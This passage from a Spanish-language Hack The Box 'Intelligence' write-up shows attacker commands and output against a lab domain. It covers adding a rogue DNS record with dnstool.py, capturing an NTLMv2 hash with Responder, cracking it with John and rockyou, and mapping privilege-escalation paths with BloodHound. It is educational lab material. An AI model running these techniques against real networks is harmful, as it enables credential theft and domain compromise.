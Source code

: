 Se crea con este [script](https://raw.githubusercontent.com/dirkjanm/krbrelayx/master/dnstool.py) 

```console
└─$ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webcucuxii -a add -t A -d 10.10.14.12 10.10.10.248
[-] Adding new record
[+] LDAP operation completed successfully
└─$ sudo python3 /usr/share/responder/Responder.py -I tun0
[HTTP] NTLMv2 Client   : 10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:3da0067bbcb69d07:63D3B7685DC7A676841D0D9075A7EE71:010100000...
```
Copie dichas creds y las rompí con el jhon
```console
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Mr.Teddy         (Ted.Graves)
```
-------------------------------
## Part 5: Escalando privilegios 

Tenemos un usaurio nuevo. 
La herramienta bloodhound nos ayudaría para seguir viendo como escalar privilegios.
```console
└─$ bloodhound-python -d intelligence.htb -u 'Ted.Graves' -p 'Mr.Teddy' -c all -ns 10.10.10.248 -v
INFO: Connecting to LDAP server: dc.intelligence.htb
└─$ ls 
 20221110183506_computers.json   20221110183506_groups.json
 20221110183506_domains.json     20221110183506_users.json
```
Estos archivos se importan en el bloodhound para hacer una visual de como mejorar los privilegios.  
Marcamos tanto a Ted como a Tiffany como "owned", entonces por "Shortest path from Owned principals" se puede ver como escalar desde ellos.  
- Ted.Graves, es miembro de IT support. Este grupo tiene el privilegio "ReadGMSAPassword" sobre svc_int.  

![](/assets/images/htb-inteligence/inteligence7.PNG)
